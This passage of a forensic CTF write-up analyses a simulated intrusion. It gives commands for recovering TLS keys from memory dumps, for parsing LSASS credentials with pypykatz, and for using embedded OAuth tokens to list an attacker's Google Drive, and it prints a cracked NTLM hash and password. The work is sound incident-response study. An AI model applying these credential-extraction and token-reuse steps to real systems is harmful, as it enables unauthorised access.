python3 keystream_recover.py --target 'c2_objects/default(1).aspx' \
  --crib-file carved/pe1_180000000.b64 --out ks_long.bin
python3 xor_key_solve.py --keystream ks_long.bin --decrypt 'c2_objects/*.aspx' --outdir plaintext
```

**Sanity checks.** Step 1 must return `0x1302` — using `aes128gcm` scans for 32-byte secrets and silently finds nothing. Step 4 must show `http` nested under `tls`; a missing keylog file does **not** make `tshark` error, it just emits ciphertext. Step 5's keystream must be printable ASCII — if it looks random, the cipher is not XOR.

### B — Decrypt the RDP channel (flag 2)

```bash
# 1 — recover the TLS 1.2 master secret from error.dmp (Schannel heap)
python brute_rdp_tls12_memory.py error.dmp | grep FOUND

# 2 — client random from the pcap RDP ClientHello (frame 58 = the successful session)
tshark -r capture.pcap -Y 'tcp.port==3389 && tls.handshake.type==1' \
  -T fields -e frame.number -e tls.handshake.random

# 3 — build the keylog (TLS 1.2 format: CLIENT_RANDOM, not TRAFFIC_SECRET)
printf 'CLIENT_RANDOM %s %s\n' "$CLIENT_RANDOM" "$MASTER_SECRET" > rdp-tls12.keys

# 4 — decrypt and parse the clipboard channel
#     tshark will not reassemble RDP PDUs from TLS app data alone — use a dedicated parser
python decrypt_rdp_tls12_stream.py --pcap capture.pcap --keylog rdp-tls12.keys
python parse_rdp_clipboard.py --input rdp_client_plain.json | grep -A 30 'text='
```

### C — Extract credentials from `error.dmp` (flag 1)

See *Artifacts → `error.dmp` → MSV list-type 65* above.

### D — Enumerate attacker Drive (flags 4 and 5)

```bash
# tokens from: strings -a -el CloudSyncer.dll | grep -E 'apps.googleusercontent|GOCSPX-|^1//'
ACCESS_TOKEN=$(curl -sS -X POST 'https://accounts.google.com/o/oauth2/token' \
  --data-urlencode "client_id=$CID" --data-urlencode "client_secret=$CSEC" \
  --data-urlencode "refresh_token=$RTOK" --data-urlencode 'grant_type=refresh_token' \
  | jq -r .access_token)

curl -sS -G -H "Authorization: Bearer $ACCESS_TOKEN" \
  'https://www.googleapis.com/drive/v3/files' \
  --data-urlencode 'q=trashed = false' --data-urlencode 'pageSize=1000' \
  --data-urlencode 'fields=files(id,name,size,md5Checksum,createdTime)' \
  | jq -r '.files[] | [.name,.size,.createdTime] | @tsv' | sort
```

`createdTime` is flag 4. The `<HOSTNAME>_<filename>` convention gives flag 5.

---

## MITRE ATT&CK

| Technique | ID | Evidence |
|---|---|---|
| Remote Desktop Protocol | T1021.001 | RDP frames, mstshash `JUMP01\Ad…`; 3 connection attempts |
| OS Credential Dumping: LSASS Memory | T1003.001 | `error.dmp` type `0x461826`, T+63 s, 26 s after the logon |
| Application Layer Protocol: Web Protocols | T1071.001 | :8443 TLS C2, URIs masquerading as `/MicrosoftUpdate/ShellEx/KB242742/*.aspx` |
| Encrypted Channel: Symmetric Cryptography | T1573.001 | inner repeating-key XOR beneath TLS, key `dfsdgferhzdzxczevre5595485sdg` |
| Obfuscated Files or Information | T1027 | payloads base64-encoded inside XOR-encrypted JSON |
| Reflective Code Loading | T1620 | four `LM` modules mapped in-process; `VirtualSize` rewritten to `0x80000000 \| VA` |
| Process Injection | T1055 | `inject -r /clt/klg.bin 7628` — 292,264 B shellcode into PID 7628 |
| Command and Scripting Interpreter: PowerShell | T1059.001 | 7z and CloudSyncer commands; WMI persistence script |
| Event Triggered Execution: WMI Event Subscription | T1546.003 | **Confirmed** — `SystemOptimize` filter + consumer, recovered from RDP clipboard |
| Ingress Tool Transfer | T1105 | `curl` of CloudSyncer.7z over plaintext :8888 |
| Archive Collected Data | T1560.001 | `--compress`; Drive objects are `.zip`; 7-Zip shell-out |
| Exfiltration to Cloud Storage | T1567.002 | `CloudSyncer.exe` → Google Drive resumable upload, embedded OAuth |

---

## Lessons

### Method

1. **Decrypt every encrypted channel, not just the first one you identify.** After any successful key recovery from a memory artifact, ask what other sessions were live when the dump was taken. Flag 2 sat in RDP clipboard traffic for three days because only the C2 channel was decrypted.
2. **A tool failure under default configuration is not a tool failure.** pypykatz's MSV list-type constant is version-dependent; trying 63/64/65 takes thirty seconds and solves flag 1. "Two independent implementations failing identically" established that one parameter value fails on build 26100 — not that the build is unparseable.
3. **Manual operator activity leaves traces in the operator channel, not the implant channel.** WMI persistence typed over RDP is invisible to any analysis of C2 beacons, delivered modules or implant strings. If the implant channel is exhausted and something is unaccounted for, the interactive session is next.
4. **"Where would the operator have done this?" beats "where would the implant have stored this?"** Attackers with a live RDP session often prefer pasting to automating, especially for one-time setup.
5. **RDPCLIP is a forensic record of the attacker's clipboard.** Scripts, credentials and tool output prepared elsewhere and pasted in all appear there. A decrypted RDP stream without a clipboard parse is an incomplete analysis.
6. **Enumerate the attacker's storage, not just the victim.** One Drive listing produced flag 4's timestamp, flag 5's filename, the CFO's hostname, eight further victims, and the explanation for three empty kill-chain phases.
7. **A dump is a snapshot, not a session.** `so.dmp` was taken 2.35 s into a 52.8 s C2 session — it held the TLS keys (handshake completes in ms) but none of the payloads. Establish *when* a memory artifact was captured relative to the traffic before concluding something is absent.
8. **Match the artifact to the question's own noun.** "MD5 of the injected *shellcode*" — shellcode has no `MZ` header, yet the entire search ran through a PE-gated carve that could never have matched. ~1,000 buffers tested against an assumption the flag text had already ruled out.
9. **Exfiltration does not have to leave by the C2.** 55 KB left over :8443 against a 126 MB archive. When outbound C2 volume cannot account for the data, look for a second egress path — and for timestamps in the destination's metadata rather than in the pcap.
10. **Entropy answers "is this statically reachable?" before you spend hours proving it isn't.** One pass over the shellcode showed 7.99 across 245 KB. That single measurement retires every string-scanning approach. Measure first.

### Tooling

11. **TLS 1.3 session keys are heap-resident as RAW BINARY, not SSLKEYLOGFILE text.** The keylog format is a client-side file output, never a memory layout. Brute-force 32/48-byte candidate windows against a captured record, validate by AEAD tag, then synthesise the keylog yourself.
12. **A tool silently succeeding is worse than one that errors.** `tshark -o tls.keylog_file:<missing>` does not fail — it emits ciphertext that every downstream tool dutifully finds nothing in. Verify with `-q -z io,phs`.
13. **Run both string encodings, always.** Every secret in `CloudSyncer.exe` is UTF-16LE and invisible to plain `strings`. `strings -a -el` is mandatory for .NET and most Windows binaries.
14. **Anchor secret hunting on the consuming API, never on the word "password".** The archive password was found by anchoring on `a -p"` — a format string proves a password exists, must be a literal, and must sit near the code that assembles the command.
15. **Length prefixes beat `strings` for boundaries.** .NET's `#US` heap stores a compressed byte-length before every literal. Go, Delphi and Rust are length-prefixed too; C/C++ is the NUL-terminated exception.
16. **NativeAOT .NET binaries are mostly runtime.** Extract the inner DLL (`dotnet_sce`) before analysing — 64 MB of bundle contains 22 KB of application. String proximity in the bundle proves nothing: `DESCryptoServiceProvider` and friends appear in *every* such binary as CryptoConfig registry entries.
17. **Match the tool to the artifact class.** Volatility3's `windows.*` plugins walk **kernel** structures; a process minidump has no kernel address space. The error ("translation layer requirement not fulfilled") looks like a symbol problem and is not.
18. **Read the error, not the summary.** pypykatz reported a base64-encoded traceback. Decoding it took one line and turned "MSV parsing failed" into a precise diagnosis: which function, which field, which read.
19. **Check the tool's build target against the artifact's.** `SystemInfoStream` in any minidump gives the build number in seconds. Read it *before* choosing a parser.
20. **`WDIGEST password None` is not a finding.** Microsoft disabled WDigest plaintext storage by default in 2014. Check MSV, Kerberos, TsPkg and CredSSP before concluding a dump holds no credentials.

### Rigour

21. **A recovered secret is a hypothesis until it decrypts something.** ``6\1p0`BeVm]7/S.`` was the only password-shaped literal in the binary, sat beside the `a -p"` template, and had its boundary proven by the `#US` prefix. It was recorded here as fact **before being tested** — and fails on all six archives.
22. **State the bound when you report a negative.** An early XOR test searched periods 2–40 and returned "not repeating-key XOR." The real key is 29 bytes — the test had ranked period 29 first and dismissed it on a too-short sample. Always report *"no result within these bounds,"* never *"no result."*
23. **A magic number you cannot look up is not a magic number.** A decrypted buffer beginning `0df001c0` was written up as a `0xC001F00D` vault structure with a full field layout. All invented — disassembly showed every occurrence to be `mov r32, 0xC001F00D`, an NTSTATUS error constant in an error path.
24. **Beware the offset that gives a pleasing answer.** A FILETIME field was "found" at buffer+16 because that offset produced a timestamp six seconds after the RDP logon. When a field interpretation is chosen *because* its output is satisfying, the output is not evidence.
25. **Decrypting one layer does not mean decrypting the secret.** A Credential Manager blob opened cleanly under the recovered DPAPI masterkey — and the 96 bytes underneath could not be identified.
26. **Distinguish "parser failed" from "evidence absent" — then keep going.** Both are real states, but the first is a tooling problem with a tooling fix. This note recorded "no public tool can parse build 26100" as a determination; the actual fix was a parameter.
27. **Record what a hash is *not*.** Documenting the byte ranges already ruled out makes an eventual match meaningful and stops the next analyst repeating a thousand tests.
28. **Hash provenance must be recorded next to the hash.** "MD5 of the injected module" is ambiguous across the full mapped region, the region trimmed to `SizeOfImage`, and the as-delivered file. They differ.
29. **Grep for the encoding, not the word.** Searching four PE modules for `[A-Za-z]{3,}Cmd` returned only the shared RTTI base class from all four, falsely implying they were identical. MSVC encodes RTTI as `.?AVClassName@@`; enumerate every `?AV` plus the export directory's internal name.
30. **When structured parsers fail, read the artifact.** After three pypykatz entry points failed, a two-second `strings -a -el | grep TERMSRV` surfaced `172.168.200.60` — a host absent from every other artifact.

### Context

31. **Credential confusion is the commonest way to fail a flag.** Four distinct secrets exist here: RDP pivot password, C2 panel credential, tool archive password, exfil archive password.
32. **RDP NLA (CredSSP) — mstshash reveals username, not password.** It is a pre-auth targeting cookie, not a credential.
33. **"In-memory only" does not mean "unrecoverable."** An implant that receives modules over C2 holds the payload in a heap receive buffer — the as-delivered file survives in the dump even though it never touched disk.
34. **A mapped PE header is not the delivered PE header.** This loader rewrote every section's `VirtualSize` to `0x80000000 | VirtualAddress` — which is itself a memory-scanning signature.
35. **Read the process environment block early.** `Path`, `COMPUTERNAME`, `USERDOMAIN` and `USERNAME` characterise the host in seconds. But a PATH entry proves only that software is *installed* — it says nothing about what the dumped process did.

---

## Tools Used

**Standard:** `tshark` · Wireshark · `strings -a -el` · `7z` · `openssl x509` · `curl` + Google Drive API v3 · `pypykatz` (**MSV list-type 65** for build 26100) · `hashcat` / `john` · `dotnet_sce` (NativeAOT bundle extraction)

**Custom toolkit built during this investigation** — generic enough for `30_Tools/`:

| Tool | Generalises to |
|---|---|
| `tls13_secret_scan.py` | TLS 1.3 traffic-secret recovery from a process dump by AEAD tag validation |
| `brute_rdp_tls12_memory.py` | TLS 1.2 master-secret recovery from Schannel heap (RDP) |
| `decrypt_rdp_tls12_stream.py` | RDP-over-TLS PDU reassembly and decryption |
| `parse_rdp_clipboard.py` | RDPCLIP channel parse — clipboard forensics from decrypted RDP |
| `mdmp_region.py` | minidump region listing, VA extraction, span stitching, unmapping, hash sweep |
| `b64pe_carve.py` | base64-encoded PE recovery from heap receive buffers |
| `blob_hunt.py` | decode-and-hash every base64/hex/compressed run in a dump |
| `keystream_recover.py` | break a static-key stream cipher by crib-dragging known plaintext |
| `xor_key_solve.py` | detect XOR period from keystream, rotate to phase 0, decrypt in bulk |
| `secret_hunt.py` | embedded credentials — patterns, API anchors, .NET `#US` boundaries, entropy shape |
| `pe_identify.py` | module identification by export name, RTTI classes, API surface |
| `katz_resilient.py` | LSASS parsing where pypykatz aborts on malformed entries |
| `rebuild_delivered.py` | reconstruct a delivered file from a reflectively-loaded module |
| `drive_pull.sh` | bulk retrieval and triage of attacker cloud storage |

---

## Open Items

1. **Exfil archive password.** ``6\1p0`BeVm]7/S.`` fails on all six encrypted Drive archives, including one uploaded 95 s *after* the binary's build timestamp — which also kills the version-drift theory. Unresolved. Crack against the **cheapest salt**: `zip2john` reports HMAC costs from 435 to 7,241,251 across 11 entries (~1,565× runtime difference).
2. **Shellcode capability.** The 292 KB `klg.bin` is encrypted end to end (entropy 7.99). Recovering its behaviour needs emulation (`unicorn`, `qiling`) or detonation. The filename suggests a keylogger.
3. **`PsExec64.exe`** downloads only with `&acknowledgeAbuse=true` — confirm genuine Sysinternals vs trojanised.
4. **`172.168.200.60`** — the lateral-movement destination in JUMP01's Credential Manager. Never observed on the wire.
5. **The other four Drive archives** were never listed (`7z l` works without the password — central directories are unencrypted).

---

## Peer Review — Romil Patel (2026-07-31)

Romil Patel published a full 139-page solution (`Remnant_Chall_Romil.pdf`, 2026-07-30) solving all five flags. Flags 1 and 2 — recorded here as tooling-blocked and statically-unreachable respectively — were both solved with methods that were in scope the entire time. Full credit to him for the complete solve.

**What was missed, and why:**

| Flag | Our conclusion | Reality | Root cause |
|---|---|---|---|
| 1 | "No public tool parses build 26100" | pypykatz MSV list-type **65** works | Recorded a failure as categorical after testing one configuration |
| 2 | "Requires emulating the packed shellcode" | Pasted via **RDP clipboard**, plaintext | Only one of the three encrypted channels was ever decrypted |

**The five hypothesis failures**, in order of how much they cost:

1. **"Decrypt the C2 channel" should have been "decrypt every encrypted channel."** Three encrypted sessions existed. One was decrypted. `error.dmp` — taken while the RDP session was live — held that session's Schannel state the whole time.
2. **"The WMI name is in the C2 or the modules" should have been "the WMI name is wherever the attacker set it."** Persistence can be scripted by the implant, typed at a shell, or pasted into an RDP session. The first two were searched exhaustively; the third was out of scope because RDP was never decrypted.
3. **"pypykatz cannot parse this dump" was accepted after one configuration.** The list-type constant is a parameter. Three commands, fifteen seconds.
4. **"error.dmp is too large to analyse exhaustively"** operated as an implicit limit that was never stated. The dump was analysed repeatedly — always down the same failing path.
5. **"The RDP channel is metadata, not data."** 11 MB across 88 seconds was used only for topology, timing and volume. Nobody asked what was inside it.

**Practices to adopt as standard:** run Schannel key recovery against every dump for every TLS session in the pcap; exhaust a tool's parameter space before recording a failure as categorical; parse RDPCLIP from any decrypted RDP traffic; enumerate attacker storage completely before concluding what was stolen.

---

## Change Log

- **2026-07-28 — Initial analysis and full C2 decryption.** Recovered both TLS 1.3 traffic secrets (48-byte SHA384, suite `0x1302`) from `so.dmp` by AEAD-tag validation; broke the inner repeating-key XOR layer by crib-drag (key `dfsdgferhzdzxczevre5595485sdg`, period 29). Solved flags 3, 4 and 5. Corrected flag 4 (`1769849098` → `1769849198` — the old value was the C2 Close Notify) and flag 5 (`error.dmp` → `VCS-Internal-Report.pdf`). Recovered `error.dmp` from the attacker's Google Drive and identified it as an LSASS dump. Enumerated the attacker's Drive: nine victims, campaign spanning 2026-01-20 → 2026-02-03. Corrected the 7z password (`powersyncer` → `owersyncer`) and the TLS key-recovery method (SSLKEYLOGFILE is a file format, not a memory layout). Retracted two unsupported claims: the `0xC001F00D` DPAPI structure reading (it is an NTSTATUS constant in executable code) and the exfil archive password identification (fails on all six archives).
- **2026-07-31 — Flags 1 and 2 solved via Romil Patel's peer writeup.** Flag 1: pypykatz MSV list-type 65 → NTLM `7f166d02eb42dc07bacc8e83f02738dc` → hashcat → `CoffeeMorning@`. Flag 2: RDP TLS decrypted from `error.dmp` Schannel master secret → RDPCLIP frame 4359 → PowerShell WMI script → `SystemOptimize`. Added the peer-review section and the hypothesis post-mortem.
- **2026-08-02 — Restructure.** Moved the timeline to the top, immediately after the flags table. Consolidated the three encrypted channels into one section. Pruned all content asserting flags 1 and 2 were unsolvable — the "no public tool can parse build 26100" determination, the "flag 2 requires emulation" conclusion, the open Verification Queue, and the superseded *Remaining work*. Merged the intrusion-reconstruction confidence tiers into the sections they describe. Consolidated 40 lessons into 35, grouped by theme. Condensed nine change-log entries documenting retracted claims into two. Corrected the MITRE T1546.003 row from "inferred only" to confirmed.
